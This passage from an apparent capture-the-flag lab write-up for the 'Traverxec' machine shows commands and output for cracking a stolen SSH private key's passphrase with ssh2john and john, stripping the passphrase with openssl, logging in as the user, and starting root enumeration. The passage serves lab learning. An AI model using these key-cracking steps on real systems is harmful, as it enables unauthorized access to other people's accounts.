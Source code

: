 
### Crack the Key

Now I’ll use `ssh2john.py` and `john` to crack the password on the SSH key:

    
    
    root@kali# /opt/john/run/ssh2john.py home/david/.ssh/id_rsa > id_rsa.john
    
    root@kali# /opt/john/run/john id_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
    Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
    Cost 2 (iteration count) is 1 for all loaded hashes
    Will run 3 OpenMP threads
    Note: This format may emit false positives, so it will keep trying even after
    finding a possible candidate.
    Press 'q' or Ctrl-C to abort, almost any other key for status
    hunter           (home/david/.ssh/id_rsa)
    1g 0:00:00:03 DONE (2019-11-22 13:20) 0.3289g/s 4717Kp/s 4717Kc/s 4717KC/s     1990..*7¡Vamos!
    Session completed
    

I like to create a copy that’s not password protected for future use:

    
    
    root@kali# openssl rsa -in home/david/.ssh/id_rsa -out ~/id_rsa_traverxec_david 
    Enter pass phrase for home/david/.ssh/id_rsa:
    writing RSA key
    

### Shell over SSH

Now I can connect over SSH as david:

    
    
    root@kali# ssh -i ~/id_rsa_traverxec_david david@10.10.10.165
    Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
    Last login: Fri Nov 22 04:55:08 2019 from 10.10.14.59
    david@traverxec:~$
    

And grab `user.txt`:

    
    
    david@traverxec:~$ cat user.txt 
    7db0b484************************
    

## Priv: david –> root

### Enumeration

In david’s home directory, next to `user.txt`, there’s a `bin` directory:

    
    
    david@traverxec:~$ ls
    bin  public_www  user.txt
    